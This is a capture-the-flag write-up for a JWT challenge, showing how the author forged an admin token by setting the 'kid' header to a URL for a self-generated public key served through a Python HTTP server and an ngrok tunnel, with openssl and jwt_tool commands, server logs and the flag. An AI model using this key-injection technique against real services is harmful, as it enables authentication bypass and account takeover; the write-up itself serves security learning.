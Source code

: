 # Day 15 - JWT 2

I can admit I might not have figured out everything, but I think everything should be figured out now! I have however implemented a new header I found in RFC 7515.

## Write-Up
As yesterday we have a JWT challenge to crack. We need to be logged in as *admin* but are only given login credentials for *test* user. So we need to change the JWT token somehow.

The challenge text has a reference to *RFC 7515* and after loging in to the site we are also given a hint that this is about *KID* being used.

Let's look at the token using http://jwt.io

![](./images/image01.png)

Looking at the RFC we can read about *KID*.
RFC: https://datatracker.ietf.org/doc/html/rfc7515#section-4.1.4

![](./images/image02.png)

So the *kid* parameter is used to indicate which key that has been used to secure the token. We see that the *alg* is set to *RS256* which we know from yesterday that uses a key pair for signing and verification.

My guess is that we should try creating our own key-pair, create a new JWT token signed with our private key, publish the public key on the WWW so it could be used to verify the new token.

It sounds easy enough. On my first try I signed up for a free web hosting service so I would have a place to put my key. Then I tried serveral long manual ways for generating key-pairs, crafting the JWT token and putting my key online. NOTHING worked! I banged my head to the wall and tried other ways to generate more new keys, more new tokens... NO Luck... I reused the thought from yesterday, alg confusion, even not believing it to work. The *none algorithm* attack was tried and other tampering methods found here and there... STILL NO LUCK.... In my **frustration** I even tried the initial thought, but publicly hosting the *private* key... KNOWING that this is a **BIG No-No!**. I got nowhere.. deleted every key-pair created (locally and online), every token created, and every script sniplets I had begun...

TIME TO RETHINK THIS!!!!

Knowing that someone in the community had solved this chellenge, I reached out for a little nudge. I wanted to verify if my thoughts was on target or if I was way-off. Thanks to "klarz" for replying to my "call for help". Also thanks for giving help in an informative way... I was looking at "klarz" reply: "What have you tried?"
So I explained what I had done and what my methods had been. I got verification that my initial though should work. "klarz" also gave me links to a resource "for quick and easy testing", https://ngrok.com.

My initial though should be the correct way to solve this challenge, meaning the free web-hosting service must "#¤% this up. Looking at *ngrok*, which in short "exposes local servers behind NATs and firewalls to the public internet over secure tunnels". After a little reading on how to use this, the conecpt is easy.

- Run a local server
- Create a tunnel to ngrok which should expose my local server. Forwarding traffic from an ngrok URL to my localhost.

First let's create a new key-pair for signing and verification.

Ref: https://developers.yubico.com/PIV/Guides/Generating_keys_using_OpenSSL.html

```shell
$ openssl genrsa -out jwtThisShouldWork.key 2048

$ openssl rsa -in jwtThisShouldWork.key --outform PEM -pubout -out jwtThisShouldWork.key.pub
```

Now let's run a local http server using python and start *ngrok* to get a URL we can use as *kid* value in our JWT token header.
```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

$ ./ngrok http 8000

[snipped output]
Forwarding     http://7c21-85-165-89-169.ngrok.io -> http://localhost:8000            
Forwarding     https://7c21-85-165-89-169.ngrok.io -> http://localhost:8000
```

Then we need to craft our new JWT token. Let's use *jwt_tool*. Options *-S rs256 -pr >local private key<* for the signing of the token, *-T* for tampering. 
```shell
$ jwt_tool.py -S rs256 -pr ./jwtThisShouldWork.key -T "JWT TOKEN VALUE"

Changing Kid:
[3] kid = "http://7c21-85-165-89-169.ngrok.io/jwtThisShouldWork.key.pub"

Changing username:
[1] username = "admin"
```

We should then get a new JWT Token, signed with our key, which we can use in our cookie. When reloading the page *ngrok* and our local http server revieves connection.

```
[ngrok]

HTTP Requests
-------------                                                                                      
GET /jwtThisShouldWork.key.pub 200 OK
GET /jwtThisShouldWork.key.pub 200 OK

[http.server]
127.0.0.1 - - [23/Dec/2021 12:43:56] "GET /jwtThisShouldWork.key.pub HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2021 12:43:56] "GET /jwtThisShouldWork.key.pub HTTP/1.1" 200 -
```

And the webpage displays our flag

![](./images/image03.png)


## The Flag
RSXC{Don't_let_others_decide_where_your_keys_are_located}
